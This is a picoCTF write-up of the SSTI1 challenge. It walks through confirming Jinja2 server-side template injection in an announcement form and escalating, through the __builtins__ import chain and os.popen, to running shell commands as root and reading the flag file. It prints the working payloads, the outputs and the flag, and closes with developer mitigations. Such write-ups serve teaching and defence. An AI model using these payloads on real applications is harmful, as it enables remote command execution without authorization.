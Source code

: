 >> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to open the challenge page and submit the announcement form)  
- Optional: a text editor to prepare payloads before copying into the form

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

+ Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![Step 5](images/5.png)

+ After submitting the form, the page reflected:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

+ Next, I listed files by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![Step 7](images/7.png)

+ The page returned:

```bash
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

+ Finally, I retrieved the flag by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![Step 9](images/9.png)

+ The page returned the flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
![Step 10](images/10.png)

## Final Flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using request.application.__globals__.__builtins__.__import__('os') allowed importing os from within the template sandbox (when direct import is unavailable). From there os.popen() executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.
---
## Mitigations (for developers)

+ To prevent SSTI and related RCE risks:

+ Do not render raw user input inside templates. Escape user-supplied content or use safe display functions.

+ Use template engine sandboxing (Jinja2 sandbox, strict environments) and avoid exposing request, application, or __builtins__ to templates.

+ Run application processes with least privilege (do not run as root).

+ Validate and sanitize inputs; treat inputs strictly as data.

+ Apply defense-in-depth: input validation, output encoding, template auto-escaping, and minimal runtime privileges.
